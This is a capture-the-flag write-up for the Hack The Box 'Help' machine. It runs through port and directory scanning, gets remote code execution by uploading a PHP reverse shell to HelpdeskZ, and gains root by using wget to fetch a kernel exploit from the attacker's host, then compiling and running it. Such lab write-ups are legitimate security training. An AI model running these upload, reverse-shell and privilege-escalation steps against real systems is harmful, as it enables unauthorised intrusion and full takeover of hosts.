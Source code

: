 # Help
## nmap
```
$ nmap 10.10.10.121 --top-ports 1000 --open -sV
```
![](https://i.imgur.com/d3mzVKk.png)

It has http service, let's use gobuster to burte force the folder.
## gobuster
```
$ gobuster -u 10.10.10.121 -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```
![](https://i.imgur.com/B8hY52P.png)
## http
![](https://i.imgur.com/1Wjz3QD.png)

In the website, we can find it has helpdesk service.

![](https://i.imgur.com/HoprWXC.png)

As mentioned in the script, helpdesk in the default configuration allows upload for .php files and there is a weakness in the rename function of the uploaded file:

![](https://i.imgur.com/4FDroS4.png)

It can be clearly seen that the php file will still be uploaded successfully with a timestamp.
So by guessing the file was uploaded time, we can get RCE.

According the staps as instructed:
```
Steps to reproduce
httplocalhosthelpdeskzv=submit_ticket&action=displayForm

Enter anything in the mandatory fields, attach your phpshell.php, solve the captcha and submit your ticket.
Call this script with the base url of your HelpdeskZ-Installation and the name of the file you uploaded

exploit.py httplocalhosthelpdeskz phpshell.php
```

Now we submit a ticket with hshell.php.
php reverse shell:
- https://github.com/pentestmonkey/php-reverse-shell

![](https://i.imgur.com/Sgd4H7l.png)

And we need to find where the uploaded php file is stored, I found it in the helpdeskz github.
```
define('UPLOAD_DIR', ROOTPATH . 'uploads/');
$uploaddir = UPLOAD_DIR.'tickets/'; 
```
The php file stored in "uploads/tickets/", we can use script to attack it.
```
$ python 40300.py http://10.10.10.121/support/uploads/tickets hshell.php
```
I receive a shell at 4444 port.

![](https://i.imgur.com/SMTTIau.png)
## user
Get user flag:

![](https://i.imgur.com/BnDnaCX.png)
## root
Check linux version.
```
$ uname -a
$ cat /etc/*-relaese
```
![](https://i.imgur.com/kpDJX3Y.png)

Find the priv exploit which match the linux version.

![](https://i.imgur.com/aQxpGku.png)

Store the priv script on the website and download it using wget on the victim machine.
```
$ wget http://10.10.15.61/44298.c
```
And complie this script.
```
$ gcc -o 44298 44298.c
$ ./44298
```
![](https://i.imgur.com/2MucOE4.png)
![](https://i.imgur.com/Z0Z6R3D.png)

Run successly! Now we have root permisssion.

The root flag:

![](https://i.imgur.com/iYjHJJT.png)
